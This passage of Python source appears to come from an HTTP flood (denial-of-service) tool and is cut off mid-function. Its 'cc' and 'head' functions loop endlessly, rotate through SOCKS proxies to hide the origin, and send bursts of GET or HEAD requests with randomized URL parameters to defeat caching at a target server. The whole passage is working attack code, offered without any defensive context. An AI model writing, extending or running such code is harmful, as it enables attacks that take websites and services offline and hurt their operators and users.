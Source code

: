 def cc(event,socks_type,ind_rlock):
	global ind_dict
	header = GenReqHeader("get")
	proxy = Choice(proxies).strip().split(":")
	add = "?"
	if "?" in path:
		add = "&"
	event.wait()
	while True:
		try:
			s = socks.socksocket()
			if socks_type == 4:
				s.set_proxy(socks.SOCKS4, str(proxy[0]), int(proxy[1]))
			if socks_type == 5:
				s.set_proxy(socks.SOCKS5, str(proxy[0]), int(proxy[1]))
			if brute:
				s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
			s.connect((str(target), int(port)))
			if protocol == "https":
				ctx = ssl.SSLContext()
				s = ctx.wrap_socket(s,server_hostname=target)
			try:
				for _ in range(multiple+1):
					get_host = "GET " + path + add + randomurl() + " HTTP/1.1\r\nHost: " + target + "\r\n"
					request = get_host + header
					sent = s.send(str.encode(request))
					if not sent:
						proxy = Choice(proxies).strip().split(":")
						break
				s.close()
			except:
				s.close()
			ind_rlock.acquire()
			ind_dict[(proxy[0]+":"+proxy[1]).strip()] += multiple+1
			ind_rlock.release()
		except:
			s.close()

def head(event,socks_type,ind_rlock):#HEAD MODE
	global ind_dict
	header = GenReqHeader("head")
	proxy = Choice(proxies).strip().split(":")
	add = "?"
	if "?" in path:
		add = "&"
	event.wait()
	while True:
		try:
			s = socks.socksocket()
			if socks_type == 4:
				s.set_proxy(socks.SOCKS4, str(proxy[0]), int(proxy[1]))
			if socks_type == 5:
				s.set_proxy(socks.SOCKS5, str(proxy[0]), int(proxy[1]))
			if brute:
				s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
			s.connect((str(target), int(port)))
			if protocol == "https":
				ctx = ssl.SSLContext()
				s = ctx.wrap_socket(s,server_hostname=target)
			try:
				for _ in range(multiple+1):
					head_host = "HEAD " + path + add + randomurl() + " HTTP/1.1\r\nHost: " + target + "\r\n"
					request = head_host + header
					sent = s.send(str.encode(request))